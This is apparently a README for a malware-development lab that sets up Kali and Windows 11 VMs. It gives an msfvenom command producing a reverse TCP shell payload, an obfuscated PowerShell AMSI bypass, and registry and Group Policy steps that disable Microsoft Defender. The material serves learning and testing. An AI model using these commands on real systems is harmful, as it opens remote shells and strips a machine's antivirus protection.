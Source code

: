 # Tools
- [Process Hacker](https://processhacker.sourceforge.io/)
- Kali VM 
- Windows 11 VM
- Parrot 


# Before getting started
You might need to generate the payload in `Kali`.
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<YOUR_IP_ADDR> LPORT=4444 -f c
```
![payload](./Screenshots/01.png)

# Turn off the defender

## Step 01
`Windows 10` or lower version should be fine after this step, but if you are testing in `Window 11+`, I recommend you to go through step 2 and 3 as well.
```powershell

Set-MpPreference -DisableIOAVProtection $true
Set-MpPreference -DisableRealtimeMonitoring $true
[Ref].Assembly.GetType('System.Management.Automation.'+$("41 6D 73 69 55 74 69 6C 73".Split(" ")|forEach{[char]([convert]::toint16($_,16))}|forEach{$result=$result+$_};$result)).GetField($("61 6D 73 69 49 6E 69 74 46 61 69 6C 65 64".Split(" ")|forEach{[char]([convert]::toint16($_,16))}|forEach{$result2=$result2+$_};$result2),'NonPublic,Static').SetValue($null,$true)
```

## Step 02
```powershell
# WIN + R
gpedit.msc
```
- In the `Group Policy Editor`, go to `Computer Configuration` > `Administrative Templates` > `Windows Components` > `Microsoft Defender Antivirus`.

- Navigate to `Computer Configuration` > `Administrative Templates` > `Windows Components` > `Microsoft Defender Antivirus` > `Tamper Protection`.
- Enable the policy named Turn off `Tamper Protection`.

- Find the policy named Turn off `Microsoft Defender Antivirus`.
- Double-click it, set it to `Enabled`, and then click `Apply` and `OK`.

- Go to `Real-time Protectio`n under the `Microsoft Defender Antivirus settings`.
- Find Turn off `real-time protection` and set it to `Enabled`

## Step 03
```powershell
# WIN + R 
regedit
```
Go to `HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows Defender`
### Then setup as follows:
- DisableAntiSpyware = 1
- DisableRoutinelyTakingAction = 1
- ServiceStartStates = 4


---

# References
- Most of codes are from [Malware-Development-for-Ethical-Hackers
](https://github.com/PacktPublishing/Malware-Development-for-Ethical-Hackers) by Zhassulan Zhussupov, 2024.
- [DLL Hijacking Basics](https://medium.com/@zapbroob9/dll-hijacking-basics-ea60b0f2a1d8) by Enes Adışen, 2023.

